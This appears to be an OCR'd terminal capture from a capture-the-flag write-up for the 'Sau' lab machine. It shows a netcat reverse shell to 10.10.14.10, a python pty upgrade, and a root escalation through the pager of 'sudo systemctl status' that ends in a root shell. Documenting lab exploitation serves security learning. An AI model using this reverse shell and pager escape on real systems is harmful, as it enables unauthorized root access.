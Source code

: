 ```
             ├─1229 /bin/sh -i
             ├─1230 nc 10.10.14.10 9001
             ├─1232 python3 -c import pty; pty.spawn("/bin/bash")
             ├─1233 /bin/bash
             ├─1280 sudo /usr/bin/systemctl status trail.service
             ├─1282 /usr/bin/systemctl status trail.service
             └─1283 pager

Jul 08 19:04:21 sau systemd[1]: Started Maltrail. Server of malicious traffic d>
Jul 08 20:55:14 sau maltrail[1217]: Failed password for id from 127.0.0.1 port >
lines 1-23
Jul 08 20:58:10 sau sudo[1249]:     puma : TTY=pts/0 ; PWD=/home/puma ; USER=ro>
lines 2-24!sh
!sshh!sh
# id
id
uid=0(root) gid=0(root) groups=0(root)
```

Root flag captured.